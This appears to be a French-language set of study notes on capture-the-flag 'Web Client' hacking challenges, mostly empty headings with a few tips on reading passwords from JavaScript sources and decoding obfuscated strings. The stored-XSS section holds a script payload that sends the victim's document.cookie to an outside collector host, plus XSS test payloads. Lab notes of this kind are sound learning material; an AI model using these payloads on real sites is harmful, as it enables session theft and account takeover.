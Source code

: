 .. index::
   single: WebClient;

Web Client - Hacking
===================

1 : Activer un form qui est désactivé par défaut en HTML
--------------------------------------------------------

Console
::

   var input = document.body.getElementsByTagName("input");
   for(i=0; i<input.length; i++)
   {
      if( typeof(input[i]) != 'undefined' )
          input[i].disabled = false;
   }


Morale : Le HTML peut être modifié et détourné

2. Javascript authentification
--------------------------
::

   Chercher dans les outils de développeurs, le script de login.js

Morale : Les fichiers Js peuvent être visible et leurs informations sensibles, dans F12->application->Frame->Script

3. Javascript source ( même astuce que précédemment )
--------------------------

4. Javascript authentification 2  ( même astuce que précédemment )
--------------------------

5. Javascript - obfuscation 1
--------------------------

   1. Chercher le fichier JS
   2. Trouver la chaine password
   3. passer la chaine dans la fonction

5. Javascript - obfuscation 2
--------------------------

   1. Chercher le pass dans js
   2. prendre la partie exadécimale du pass
   3. unescape('%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29');
   4. console.log(String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54));

6. Javascript - native code
--------------------------

   1. Trouver le code pass natif
   2. Tostring sur le code native ( en enlevant les dernières parentheses pour enlever le mode function du code natif.

7. Javascript - webpack
--------------------------

   1. Chercher le flag dans les sources webpack


8. Javascript - Obfuscation 3
--------------------------------


8. XSS - stockée 1
--------------------------------

savoir si un formulaire permet l'éxécution de code :
::

   <script>console.warn('code executed');</script>

::

   <script>alert('code executed');</script>


Injection de HTML ( et <script> ) dans un form non sécurisé, pour recuperer un cookie sur un hooker a cookie ( avec mdp,..)
::

   <script>window.location="https://sacha.free.beeceptor.com?cookie="+document.cookie</script>


9. CSP Bypass - Inline code
----------------------------

10. CSRF - 0 protection
----------------------------


11. Flash - Authentification
----------------------------

12. CSP Bypass - Dangling markup
----------------------------


13. CSP Bypass - JSONP
----------------------------

14. CSRF - contournement de jeton
----------------------------

15. XSS - Volatile
----------------------------

essai:
::

   <img src="https://sacha.free.beeceptor.com" onload=(alert('error'); >

16. CSP Bypass - Dangling markup 2
----------------------------

17. Javascript - Obfuscation 4
----------------------------

18. XSS - Stockée 2
----------------------------

19. HTTP Response Splitting
----------------------------

20. Javascript - Obfuscation 5
----------------------------

21. XSS - Stored - contournement de filtres
----------------------------

22. XSS - DOM Based
----------------------------
